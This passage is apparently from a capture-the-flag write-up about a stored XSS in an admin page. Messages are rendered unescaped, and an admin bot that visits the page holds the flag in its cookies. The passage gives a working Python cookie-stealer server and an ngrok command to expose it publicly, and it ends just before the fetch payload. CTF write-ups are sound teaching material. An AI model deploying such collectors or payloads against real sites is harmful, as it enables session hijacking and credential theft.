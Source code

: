 
We can note that, the `/admin` path gets called every 30s, the user contains the flag in it's Cookies, and the xss auditor is disabled.

Let's try to find a way to inject something into the admin page. By looking at it's template we learn that all the messages submitted get listed and displayed on the page:

{% raw %}

```html
{% for message in messages %}
    <div>{{ message.content | safe }}</div>
{% endfor %}
```

{% endraw %}

## Building the payload

Let's make a basic cookie stealer server.

```py
from http.server import BaseHTTPRequestHandler, HTTPServer

class Server(BaseHTTPRequestHandler):
    def do_GET(self):
        print(f"Path: {self.path}")
        self.send_response(200)
        self.end_headers()


def run(server_class=HTTPServer, handler_class=Server, port=80):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print("Starting server...\n")
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()
    print("Stopping server...\n")

if __name__ == '__main__':
    run()
```

Let's start the server, and to forward our private port to a internet facing one, we can use `ngrok`:

```bash
python cstealer.py
# New terminal
ngrok http 80
```

Now any request to the ngrok URL will be forwarded and all headers will be visible in the logs of the program. Let's craft a simple fetch request:
